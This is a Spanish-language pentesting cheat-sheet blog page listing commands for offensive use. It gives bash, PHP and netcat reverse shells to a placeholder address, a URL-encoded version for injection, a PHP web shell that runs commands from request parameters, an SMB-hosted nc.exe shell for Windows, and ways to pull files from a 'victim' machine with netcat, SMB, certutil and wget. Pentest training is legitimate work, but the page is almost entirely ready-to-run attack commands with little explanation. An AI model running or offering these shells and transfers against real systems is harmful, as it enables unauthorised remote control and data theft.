 ```yaml
---
layout: single
title: Comandos.
excerpt: "En esta sección conocerás algunos comandos que te serań utiles para realizar distintas tareas."
date: 2023-02-20
classes: wide
header:
  teaser: /assets/images/command.jpeg
  teaser_home_page: true
categories:
  - Pentesting
  - Ethical Hacking
tags:
- Linux
- Windows
---
```

## Reverse Shell.
Estas son algunas formas con las cuales puedes enviarte una reverse shell a tu equipo.
```
bash -c bash -i >& /dev/tcp/<ip-address>/443 0>&1

bash+-c+bash+-i+>%26+/dev/tcp/<ip-address>/443+0>%261
```
```
<?php system("bash -c 'bash -i >& /dev/tcp/<ip-address>/443 0>&1'") ?> 
```
```
nc -e /bin/bash <ip-address> 443
```
Web shell.
```
<?php
  echo "<pre>" . shell_exec($_REQUEST['cmd']) . "<pre>";
?>
```
```
smbserver.py smbFolder $(pwd) -smb2support
sudo nc -nlvp 443
\\<ip-address>\smbFolder\nc.exe -e cmd <ip-address> 443
```
Acceder al template 404.php.
```
curl -s -X GET "http://<ip-address>/?p=404.php"
```
<br><br>
## Reducir el peso de un archivo.
Con el comando `` du -hc `` puedes ver el peso que tiene un archivo. y con `` upx `` reduces el peso para que cuando lo quieras transferir de un equipo a otro sea más rapido.
```
du -hc <archivo>

upx <archivo>
```
<br><br>
## Tranferir archivos o binarios. 
Tranferir un archivo o binario con netcat.
```
nc -nlvp 443                      # Desde tu equipo.

nc <ip-addres> 443 < <archivo>    # Desde la máquina víctima.
```

Transferir un archivo a una máquina Windows haciendo uso de smbserver.
```
impacket-smbserver smbFolder $(pwd) -smb2support  # Desde tu equipo.

copy <archivo> \\<ip-address>\smbFolder\<archivo> # Desde la máquina víctima.
```

Transferir un archivo usando python para montar un servicio http por el puerto 80 y con el binario certutil.exe realizar la transferencia.
```
python3 -m http.server 80          # Desde tu equipo.

certutil.exe -f -urlcache -split http://<ip-address>/<archivo_a_tranferir> <nombre_como_se_guardara>                              # Desde la máquina víctima
```
Transferir un archivo con python y wget.
```
python3 -m http.server 80           # Desde tu equipo.

wget http://<ip-address>/<archivo>  # Desde la máquina víctima.
```







